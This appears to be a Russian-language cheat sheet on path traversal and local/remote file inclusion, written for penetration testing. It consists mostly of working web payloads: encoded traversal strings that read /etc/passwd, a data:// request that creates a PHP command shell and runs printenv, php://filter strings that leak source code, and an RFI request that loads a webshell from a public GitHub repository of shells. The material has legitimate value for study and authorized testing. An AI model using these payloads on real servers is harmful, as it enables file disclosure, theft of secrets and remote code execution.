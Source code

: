 ## Полезные материалы

1. [PayloadsAllTheThings/File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
2. [PayloadsAllTheThings/Directory Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)
3. [PayloadsAllTheThings/Client Side Path Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Client%20Side%20Path%20Traversal)

---

## Обход методов защиты от **Path Traversal**

1. ../../../etc/passwd
2. ....//....//....//etc/passwd
3. ../../../etc/passwd
4. ..%2F..%2F..%2Fetc/passwd - URL Decode
5. ..%252F..%252F..%252F - URL double decode
6. {/now/directory/}../../../etc/passwd
7. ../../../etc/passwd%00.jpg

---

## File Inclusion

Уязвимость File Inclusion (включение файла) позволяет злоумышленнику "включить" файл в ответ, обычно используя механизмы "динамического включения файлов", реализованные в целевом приложении.

Если файл, включённый в ответ, нельзя исполнить (т.к. его расширение веб-сервер не исполняет), то это Directory Traversal, но если сервер настроен на исполнение файлов с таким расширением и этот файл можно запустить, таким образом исполняя зловредный скрипт, будет уязвимость **Local file inclusion** или **Remote file inclusion**.

---

## Эксплуатация LFI/RFI

[PayloadsAllTheThings/File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

Пример GET запроса из браузера, где с помощью схемы "data" создаётся примитивный PHP Shell:
```
.../?file=data://text/plain,<?php system($_GET['cmd']) ?>&cmd=printenv
```

Если нужно прочитать php код, а не исполнить:
```
.../?page=php://filter/read=string.rot13/resource=index.php
.../?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
.../?page=php://filter/convert.base64-encode/resource=index.php
.../?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

В RFI можно исполнить удалённый файл, например Shell с гитхаба. Гитхаб с шелами: [tennc/webshell](https://github.com/tennc/webshell).
Пример:
```
.../?file=https://raw.githubusercontent.com/tennc/webshell/refs/heads/master/fuzzdb-webshell/php/cmd.php
```
